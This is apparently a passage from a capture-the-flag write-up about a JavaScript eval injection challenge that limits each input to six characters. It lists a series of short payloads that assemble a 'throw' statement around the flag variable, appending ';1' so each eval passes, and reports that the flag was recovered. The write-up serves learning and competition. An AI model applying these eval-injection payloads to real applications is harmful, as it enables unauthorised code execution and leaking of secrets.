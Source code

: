 `eval()` will always return the string we assigned to the value, and the comparison will always evaluate to `false`, which will trigger the subsequent `eval()` calls.  

To prevent this, we can simply append a `1` to the back of each assignment, so that the `eval()` will always evaluate to `true`.  

However, since we still limited to 6 characters, we have to use an auxillary variable `b` to store the character, such that we can fit `;1` at the back of each assignment payload.  

```js
f=flag
v="t"
b="h"
v+=b;1
b="r"
v+=b;1
b="o"
v+=b;1
b="w"
v+=b;1
b="'"
v+=b;1
v+=f;1
b="'"
v+=b;1
```

After submitting the series of payloads, we are finally able to view the flag.  


<img src="images/flag.png" width=600>
